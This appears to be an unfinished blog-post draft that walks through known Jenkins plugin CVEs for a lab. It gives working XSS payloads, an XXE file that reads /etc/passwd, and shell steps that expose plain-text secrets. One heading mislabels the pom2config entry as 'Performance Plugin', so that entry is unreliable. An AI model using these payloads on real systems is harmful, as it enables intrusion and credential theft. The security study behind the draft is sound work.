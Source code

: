 ```yaml
---
layout: post
title: Jenkins - Vulnerabilities analysis part 4
tags: [Jenkins, Security, CI, CD]
description: "Jenkins - Vulnerabilities analysis part 4"
---
```


This is still in redaction. I'll add more content when I have found plugins vulnerable and can reproduce the vulnerability. The exploit part will be more verbose, for now that will do :)

The docker image, which will be the lab, with all the plugins already installed, will be available soon.

Search for vulnerable plugins :
- https://www.jenkins.io/security/advisories/


## Missing permission


## XSS
### Stored XSS vulnerability in Dashboard View Plugin
- CVE-2022-27197
	- Dashboard View Plugin 2.18
	- https://plugins.jenkins.io/dashboard-view/
	- Requires Jenkins 2.277.1
#### Exploit
- New view - name it - select dashboard
- add a Portlets at the top of the page
- Iframe source url --> javascript:alert("Liodeus")
### Reflected XSS vulnerability in Wall Display Master Project Plugin
- CVE-2019-10376 
	-  Wall Display Master Project 0.6.34
	- https://plugins.jenkins.io/jenkinswalldisplay/ 
	- Requires Jenkins 1.580
#### Exploit
click Wall Display
`customTheme=</style><script>alert("Liodeus")</script>`

* * *
## CSRF



## XXE
### XXE vulnerability in Performance Plugin 
- CVE-2021-21701
	- pom2config plugin 1.2
	- https://plugins.jenkins.io/pom2config/
	- Requires Jenkins 1.509.1
#### Exploit
Create a new freestyle project
Go on it - click Pom2Config
craft a .xml with exploit
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY xxe SYSTEM "/etc/passwd" >]>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/maven-v4_0_0.xsd">
  <description>&xxe;</description>
</project>
```

## Secret stored in plain text
### Client Secret stored in plain text by GitLab Authentication Plugin
- CVE-2022-27206
	- GitLab Authentication Plugin 1.13
	- https://plugins.jenkins.io/gitlab-oauth/
	- Requires Jenkins 2.249.1
#### Exploit
Dashboard - Configure Global Security - Security Realm - GitLab Authentication Plugin
Client ID --> ThisIsASecretID
Client Secret --> ThisIsASecretPASSWORD
docker ps - get docker:dind name
docker exec -it pensive_shannon /bin/bash
cd /var/jenkins_home
cat config.xml
Secret in plain text


## Path traversal



## Agent-to-controller security bypass


## Arbitrary file read


## Denial of service


## Incorrect permission


## Bonus
### Open redirect vulnerability in GitLab Authentication Plugin 
- CVE-2022-25196
	- GitLab Authentication Plugin 1.13
	- https://plugins.jenkins.io/gitlab-oauth/
	- Requires Jenkins 2.249.1
#### Exploit
Dashboard - Configure Global Security - Security Realm - GitLab Authentication Plugin
GitLab Web URI --> URL
Save
Go to localhost:8080
You are redirect to URL
